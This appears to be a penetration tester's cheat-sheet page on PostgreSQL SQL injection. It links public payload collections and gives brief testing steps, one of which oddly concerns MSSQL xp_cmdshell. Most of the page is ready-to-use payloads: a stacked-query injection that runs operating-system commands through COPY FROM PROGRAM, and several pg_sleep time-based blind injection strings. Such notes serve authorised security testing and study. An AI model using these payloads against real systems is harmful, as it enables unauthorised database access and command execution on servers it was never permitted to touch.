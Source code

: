 # PostgreSQLi

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md" %}

{% embed url="https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet" %}

1. Test username or password fields with a single quote(').
2. Use time-based payloads to identify the DB.
3. Once the db is known, look for specific vulnerabilities to gain further access.
4. For MSSQL, enable xp\_cmdshell including advanced options.

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution

# If web-based
';DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id';SELECT * FROM cmd_exec;DROP TABLE IF EXISTS cmd_exec;--
```
{% endcode %}

## Blind

{% code overflow="wrap" fullWidth="true" %}
```sql
'||pg_sleep(10)-- -
; select pg_sleep(10);#
; select pg_sleep(10)#
; select pg_sleep(10) -- -
# in case table users and username admin is true
'||(select case when (1=1) then pg_sleep(5) else pg_sleep(0) from users where username='admin')-- - 
```
{% endcode %}
